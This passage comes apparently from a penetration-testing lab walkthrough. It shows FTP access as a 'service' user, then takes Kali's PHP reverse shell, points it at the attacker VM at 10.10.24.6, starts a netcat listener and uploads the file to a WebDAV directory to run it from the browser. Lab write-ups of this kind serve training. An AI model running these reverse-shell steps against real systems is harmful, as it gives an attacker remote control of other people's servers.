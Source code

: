```bash
pwd
	Remote directory: /home/service
# User's home directory
cd /
ls
# The "service" user can navigate in the entire file system
exit
```

- **Upload a `PHP` reverse shell** via FTP to the `/dav` directory and launch it with the browser

```bash
ls -al /usr/share/webshells/php/
cp /usr/share/webshells/php/php-reverse-shell.php .
mv php-reverse-shell.php shell.php
vim shell.php
# Change the $ip variable to the Kali Attacker VM IP - 10.10.24.6
```

![](.gitbook/assets/image-20230424145319852.png)

```bash
# Open a new tab and setup a listener
nc -nvlp 1234
```

```bash
# Login with FTP again and upload the shell.php
cd /
cd /var/www/
put shell.php
    local: shell.php remote: shell.php
    200 EPRT command successful. Consider using EPSV.
    553 Could not create file.
# The user does not have the necessary permissions
cd /var/www/dav
put shell.php
```

- Open the browser and run the `shell.php` file
  - `http://10.2.20.205/dav/`
